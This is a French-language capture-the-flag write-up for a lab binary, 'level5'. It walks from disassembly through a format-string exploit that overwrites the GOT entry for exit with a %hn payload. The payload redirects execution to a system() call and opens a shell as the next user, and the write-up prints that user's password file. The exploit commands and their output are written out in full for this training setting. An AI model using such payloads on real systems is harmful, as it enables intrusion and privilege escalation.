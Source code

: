 ## Démarches


- `objdump -d level5`
  ```
  08048504 <main>:
    8048504:	55                   	push   %ebp
    8048505:	89 e5                	mov    %esp,%ebp
    8048507:	83 e4 f0             	and    $0xfffffff0,%esp
    804850a:	e8 b3 ff ff ff       	call   80484c2 <n>
    804850f:	c9                   	leave
    8048510:	c3                   	ret

  080484a4 <o>:
    80484a4:	55                   	push   %ebp
    80484a5:	89 e5                	mov    %esp,%ebp
    80484a7:	83 ec 18             	sub    $0x18,%esp
    80484aa:	c7 04 24 f0 85 04 08 	movl   $0x80485f0,(%esp)
    80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
    80484b6:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
    80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>

  080484c2 <n>:
    80484c2:	55                   	push   %ebp
    80484c3:	89 e5                	mov    %esp,%ebp
    80484c5:	81 ec 18 02 00 00    	sub    $0x218,%esp
    80484cb:	a1 48 98 04 08       	mov    0x8049848,%eax
    80484d0:	89 44 24 08          	mov    %eax,0x8(%esp)
    80484d4:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
    80484db:	00
    80484dc:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    80484e2:	89 04 24             	mov    %eax,(%esp)
    80484e5:	e8 b6 fe ff ff       	call   80483a0 <fgets@plt>
    80484ea:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    80484f0:	89 04 24             	mov    %eax,(%esp)
    80484f3:	e8 88 fe ff ff       	call   8048380 <printf@plt>
    80484f8:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
    80484ff:	e8 cc fe ff ff       	call   80483d0 <exit@plt>
  ```

- La fonction `main` appelle une fonction `n` qui ne fait qu'un *printf* de la chaine récupérée depuis *fgets* puis un appel à *exit*
- Une fonction `o` qui fait un appel système existe mais n'est pas utilisée.
- Comme dans les levels précédents, l'appel à printf n'est pas formatté
- `(python -c 'print("AAA0"+"%08x."*4)') | ./level5` nous permet de constater que l'octet qui nous intéresse se situe au 4ème index sur la stack
  > AAA000000200.b7fd1ac0.b7ff37d0.30414141.

- On veut remplacer l'appel d'`exit` par un appel à la fonction `o`
- On récupère l'adresse d'exit avec `objdump -R level5` :
  ```
  level5:     file format elf32-i386

  DYNAMIC RELOCATION RECORDS
  OFFSET   TYPE              VALUE
  08049814 R_386_GLOB_DAT    __gmon_start__
  08049848 R_386_COPY        stdin
  08049824 R_386_JUMP_SLOT   printf
  08049828 R_386_JUMP_SLOT   _exit
  0804982c R_386_JUMP_SLOT   fgets
  08049830 R_386_JUMP_SLOT   system
  08049834 R_386_JUMP_SLOT   __gmon_start__
  08049838 R_386_JUMP_SLOT   exit
  0804983c R_386_JUMP_SLOT   __libc_start_main
  ```
- Comme dans les levels précédents, on va réécrire avec l'option %n de printf. Comme on ne souhaite réécrire que la moitié de l'adresse à l'offset 4, on utilise `%4hn` :
  
   `(python -c 'print("\x38\x98\x04\x08"+"%33952x"+"%4$hn")' ; cat -) | ./level5`
  ```
                                                                                                                                                                                                                                                                                            200
  ls
  ls: cannot open directory .: Permission denied
  pwd
  /home/user/level5
  whoami
  level6
  cat /home/user/level6/.pass
  d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
  ```
<br>
----
## Ressources

- https://www.exploit-db.com/papers/23985
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)